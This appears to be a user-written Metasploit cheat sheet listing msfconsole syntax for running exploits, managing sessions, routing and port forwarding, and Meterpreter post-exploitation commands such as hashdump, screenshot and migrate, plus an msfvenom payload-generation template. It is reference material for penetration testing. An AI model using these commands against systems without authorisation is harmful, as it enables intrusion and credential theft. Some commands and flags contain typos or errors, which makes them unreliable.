 # Metasploit Cheetsheet:

## Basic Metasploit :

User can use all regualr bash command in msfconsole ex. ls, cd, whoami, etc.

- Search for exploit:
```
msf6 > search [module name ex.smb, ftp, windows] type [module type: Auxiliary, post, expolit]
`````
- Use exploit:
````
msf6 > use exploit/[ExploitPath]
``````
- Specify a Payload to use:
````
msf6 > set PAYLOAD [PayloadPath]
``````
- Show options for the current modules:
````
msf6 > show options
``````` 
for Advanced options
````
msf6 > show Advanced options
```````
- Set options:
```
msf6 > set [Option] [Value]
`````
For null value use '' ex. set PASSWORD ''.

- Run exploit:
```
msf6 > exploit
`````
 or
````
msf6 > run
``````
- Information of Exploit:
````
msf6 exploit_type(exploit name) > info
``````
- Check exploit working or not:
````
msf6 exploit_type(exploit name) > check
``````
- Back to previous Moduleaas:
```
msf6 > back
`````
- Exit from Msfconsole:
```
msf6 > exit
`````
## Multiple Exploitation:
- Run the exploit expecting a single session that is immediately backgrounded:
```
msf > exploit -z
``````
- Run the exploit in the background expecting one or more sessions that are immediately backgrounded:
````
msf > exploit –j
`````
- List all current jobs (usually exploit listeners):
```
msf > jobs –l
````
- Kill a job:
```
msf > jobs –k [JobID]
`````
## Multiple Sessions:

- List all backgrounded sessions:
```
msf > sessions -l
``````
- Interact with a backgrounded sessions:
````
msf > session -i [SessionID]
```````
- Background the current interactive session:
```
meterpreter > <Ctrl+Z>
`````
 or
````
meterpreter > background 
```````
## Routing Through Sessions:
- Adding Route:
````
msf > route add [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- Deletting route:
````
msf > route del [Subnet to Route To] [Subnet Netmask] [SessionID]
````
- To print route:
````
msf > rout print
``````
- Port Forwording:
```
msf > portfwd -l [local port] -p [victim port] -r [remote ip]
``````
## Meterpreter:

User can use all commands used on bash depends on his authority on the compromised system.

### Process Commands:
- Display the process ID of Metepreter
```
meterpreter > getpid
````
- Display the user ID that Meterpreter is running with:
```
meterpreter > getuid
`````
- Display process list
```
meterpreter > ps
``````
- Terminate a process given its process ID
````
meterpreter > kill
``````
- Run a given program with the privileges of the process the Meterpreter is loaded in:
````
meterpreter > execute
```````
- Jump to a given destination process ID
````
meterpreter > migrate
``````
### Network Commands:
- Show network interface information
````
meterpreter > ipconfig
``````
- Save as an image a screenshot of the target machine
````
meterpreter > screenshot
`````````
- Load the priv module
```
meterpreter > use priv
`````````
- Dump hashes from the box 
````
meterpreter > hashdump
``````
## Generating encodedcpaytload:
```
$ msfvenom –p [payload user want] -e [encoder] -i [no. of iteration of encoder] -f [file type of payload] -L [localhost] -P [local port] -o [output file]
`````
